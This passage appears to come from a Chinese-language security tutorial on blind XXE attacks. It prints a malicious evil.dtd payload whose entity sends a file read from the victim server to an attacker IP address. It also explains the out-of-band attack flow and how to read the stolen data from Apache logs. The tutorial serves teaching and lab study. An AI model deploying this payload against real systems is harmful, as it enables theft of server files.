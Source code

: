远程服务器部署evil.dtd内容为:

```plain
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://192.168.201.128/?content=%file;'>"> %payload;
```

%要进行实体编码`&#x25`  
进行XXE攻击后，服务器会把文件内容发送到攻击者服务器(这里是ubantu的apache日志记录)  
[![](assets/1698897471-2644a0fcd666d6efc490d68eeddd106d.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151838-f5f6d848-14d3-1.jpg)  
ubantu查看apache日志记录命令：

```plain
tail -f /var/log/apache2/access.log
```

本地抓包也可以看到Base64编码后的文件内容  
[![](assets/1698897471-cb0392191039272755b2374e9b124164.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151949-20888bc4-14d4-1.jpg)  
*无回显攻击流程：*

-   先调用`%dtd`，请求远程服务器(攻击服务器)上的`evil.dtd`。
-   再调用 `evil.dtd`中的 `%file`。`%file` 获取受攻击的服务器上面的敏感文件，然后将 `%file` 的返回结果传到`%send` 。
-   然后调用 `%send;` 把读取到的数据发送到远程服务器上。

这样就实现了外带数据的效果，解决 XXE 无回显的问题。

**使用并分析恶意脚本**  
xxe2.php

